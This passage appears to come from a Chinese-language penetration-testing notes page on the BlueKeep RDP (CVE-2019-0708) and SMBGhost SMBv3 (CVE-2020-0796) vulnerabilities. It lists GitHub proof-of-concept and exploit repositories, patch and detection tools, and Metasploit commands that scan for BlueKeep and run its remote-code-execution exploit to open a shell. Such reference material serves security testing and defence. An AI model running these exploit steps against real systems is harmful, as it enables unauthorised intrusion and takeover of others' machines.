 - POC | Payload | exp
    - [zerosum0x0/CVE-2019-0708](https://github.com/zerosum0x0/CVE-2019-0708)
    - [robertdavidgraham/rdpscan](https://github.com/robertdavidgraham/rdpscan)
    - [Ekultek/BlueKeep](https://github.com/Ekultek/BlueKeep)
    - [mekhalleh/cve-2019-0708](https://github.com/mekhalleh/cve-2019-0708) (实测、蓝屏)
    - [Cyb0r9/ispy](https://github.com/Cyb0r9/ispy)
    - [k8gege/CVE-2019-0708](https://github.com/k8gege/CVE-2019-0708) - 批量检测工具
    - [cbwang505/CVE-2019-0708-EXP-Windows](https://github.com/cbwang505/CVE-2019-0708-EXP-Windows) - Windows版单文件exe版

- 修复工具
    - ["CVE-2019-0708"漏洞检测修复工具](https://www.qianxin.com/other/CVE-2019-0708)
    - https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708

- MSF 模块
    ```bash
    # 发现,检测
    use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
    set rhosts [ip]
    run
    ```
    ```bash
    # 利用
    use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
    set target [1-7]
    set rhosts [ip]
    show options
    exploit
    shell
    python
    ```

**CVE-2020-0796 微软 SMBv3 协议远程代码执行漏洞**
- 简介

    2020年3月11日，思科 Talos 发布了一个威胁等级被标记为 Critical 的 SMB 服务远程代码执行漏洞（CVE-2020-0796）综述，攻击者可以利用此漏洞远程无需用户验证通过发送构造特殊的恶意数据导致在目标系统上执行恶意代码，从而获取机器的完全控制。

    本次漏洞存在于微软 SMBv3.0 协议中，该漏洞是由 SMBv3 处理恶意压缩数据包时进入错误流程造成的。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

- 相关文章
    - [Exploiting SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC](https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/)

- POC | Payload | exp
    - [ollypwn/SMBGhost](https://github.com/ollypwn/SMBGhost)
    - [chompie1337/SMBGhost_RCE_PoC](https://github.com/chompie1337/SMBGhost_RCE_PoC) - 远程利用代码
    - [eerykitty/CVE-2020-0796-PoC](https://github.com/eerykitty/CVE-2020-0796-PoC) - 蓝屏 POC
    - [danigargu/CVE-2020-0796](https://github.com/danigargu/CVE-2020-0796) - 本地提权 POC
